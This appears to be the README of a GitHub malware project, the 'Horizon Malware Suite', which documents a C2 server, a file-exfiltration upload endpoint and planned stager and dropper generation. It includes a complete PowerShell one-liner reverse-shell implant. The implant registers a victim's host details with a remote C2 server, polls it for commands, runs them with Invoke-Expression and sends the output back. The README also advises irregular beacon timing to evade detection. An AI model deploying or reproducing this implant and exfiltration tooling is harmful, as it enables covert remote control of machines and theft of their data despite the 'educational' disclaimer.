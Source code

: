 ```
██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ██╗███████╗
██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝
███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║██████╔╝███████║██║     █████╔╝ ██████╔╝██║   ██║██╔██╗ ██║█████╗  
██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══██╗██║   ██║██║╚██╗██║██╔══╝  
██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║██████╔╝██║  ██║╚██████╗██║  ██╗██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
```

-----------------------------------------------------------------------------------

**THIS PROJECT IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE IT FOR ILLEGAL PURPOSES!**

***Go to the [development-microservices](https://github.com/maxbirnbacher/HorizonBackbone/tree/development-microservices) branch for a preview of the microservices version (currently in development and not ready for production).***

The heart of the Horizon Malware Suite and used for all kinds of things.

## Roadmap

- [X] List files
- [x] Simple web-interface
- [x] File download
- [ ] Delete file(s)
- [X] Make a better UI for the web-interface
- [X] C2 Server and API
- [X] Frontend for C2 Server
- [ ] Rewrite API and frontend as microservices
- [ ] API & frontend authentication
- [ ] Dynamic creation of stagers/droppers
- [ ] Frontend-Dialog for stager/dropper creation
- [ ] File upload for droppers


## Why microservices?

I want to make the whole Horizon Malware Suite as modular as possible. This way you can use the parts you need and don't have to use the whole suite.
Another aspect is that I want to add scalability to the project. If you want to use the whole suite you can just spin up multiple instances of the microservices and use a load balancer to distribute the load.

It will also allow me to develop the different parts of the suite independently from each other. This way I can focus on one part at a time and don't have to worry about breaking other parts of the suite.

Microservices will bring a very big change to the project. For example the frontend will be a NodeJS application that will communicate with the API via REST. I previously used Jinja2 templates to render the frontend. This is why I also need to rewrite parts of the API.

As a message queue/broker I will use Apache Kafka.

## Setup & Start

Clone the repository and run `docker-compose build` to build the images.

Start the stack with `docker-compose up -d` and you are good to go.

## Usage

### Dashboard

After starting the stack you can access the Webinterface by accessing `http://SERVER_IP_OR_DOMAIN:8000` in your browser.

There you can (*currently*) choose between the Data Exfiltration and the C2 Server.

### Data Exfiltration

To exfiltrate data you can use the '/upload' endpoint.

You can see your uploaded files under `http://SERVER_IP_OR_DOMAIN:8000/list-files-view`.

![DataExfil](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/39b7923c-8328-4672-8dc7-5f75cc725565)

If you click on the filename you can access the file and download it.

![FileView](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/75e3ff57-d2e7-45da-8c4d-8f8beffb0653)

### C2 Server

The C2 Server is intended for long-term usage. Communication should take place over a long period of time that are non-linear to avoid beacon detection.

The workflow is as follows:

1. Register a new client. This will create a new client in the database and return a unique ID. This ID is used for all further communication with the client. (`http://SERVER_IP_OR_DOMAIN:8000/register`)
2. Queue new commands for the client via the web-interface in the detail view of each client.
3. The client will check for new command(s) after the specified interval and execute it/them. (`http://SERVER_IP_OR_DOMAIN:8000/commands/{connection_id}`)
4. The client will send the results of the command(s) to the server. (`http://SERVER_IP_OR_DOMAIN:8000/output/send/{connection_id}`)
5. The server will store the results in the database and make them available via the web-interface. Hit the refresh button in the detail view of the client to see the output.
6. Unregister the client if you don't need it anymore. (`http://SERVER_IP_OR_DOMAIN:8000/unregister/{connection_id}`) *interface currently in development*

#### Reverse Shell Example

Here is an example of a reverse shell using the C2 Server. Replace the IP address in the `$main_url` variable and in some other url variables with the IP address of your server.

```PowerShell
$ip_address=((ipconfig|Select-String "IPv4 Address").ToString() -split ": ")[-1];$os_type=(Get-WmiObject -Class Win32_OperatingSystem).Caption;$hostname=(Get-WmiObject -Class Win32_ComputerSystem).Name;$username=[Environment]::UserName;$main_url="http://10.0.0.9:8000";$interval=30;$intervalUnit="Seconds";$body=@{os_type=$os_type;ip_address=$ip_address;hostname=$hostname;username=$username;password="placeholder"}|ConvertTo-Json;Write-Host "IP Address: $ip_address";Write-Host "OS Type: $os_type";Write-Host "Hostname: $hostname";Write-Host "Username: $username";$url="http://10.0.0.9:8000/register?os_type=$os_type&ip_address=$ip_address&hostname=$hostname&username=$username&password=$password";$response=Invoke-RestMethod -Method Post -Uri $url;$connection_id=$response.id;Write-Host "Registered connection with ID: $connection_id";while($true){$url="$main_url/commands/$connection_id";$command=Invoke-RestMethod -Method Get -Uri $url;Write-Host "Received command: $command";if([string]::IsNullOrEmpty($command)){write-host "No command received yet...";$startSleepCmd="Start-Sleep -$intervalUnit $interval";$startSleepCmdStr=[String]$startSleepCmd;Invoke-Expression $startSleepCmdStr;continue;}if($command -eq "exit"){write-host "Exiting...";break;}write-host "Executing command: $command";if($command -ne "" -or $null -ne $command){$commandStr=[String]$command;$result=Invoke-Expression $commandStr;$output=$result|Out-String;$body=@{output=$output}|ConvertTo-Json;$url="$main_url/output/send/$connection_id";$body=@{output=$output}|ConvertTo-Json;Invoke-RestMethod -Method Post -Uri $url -Body $body;}}
```

### API

You can find all the API endpoints in the under `http://SERVER_IP_OR_DOMAIN:8000/docs`.





